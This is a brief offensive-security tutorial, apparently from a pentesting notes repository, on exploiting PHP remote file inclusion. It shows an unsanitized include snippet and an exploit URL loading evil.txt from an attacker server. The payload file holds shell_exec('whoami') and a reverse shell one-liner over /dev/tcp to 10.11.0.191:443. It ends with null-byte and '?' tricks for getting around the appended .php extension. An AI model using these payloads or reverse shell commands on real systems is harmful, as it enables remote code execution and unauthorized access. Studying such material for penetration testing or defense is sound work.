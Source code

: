 # Remote file inclusion

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine. 

RFI's are less common than LFI. Because in order to get them to work the developer must have edited the **php.ini** configuration file.

This is how they work.

So you have an unsanitized parameter, like this

```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.

```
http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
```

And evil.txt will look like something like this:

```
<?php echo shell_exec("whoami");?>

# Or just get a reverse shell directly like this:
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>

```

So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have a RCE.


## Avoid extentions

Remember to add the nullbyte **%00** to avoid appending **.php**. This will only work on php before version 5.3. 

If it does not work you can alsog add a **?**, this way the rest will be interpreted as url parameters.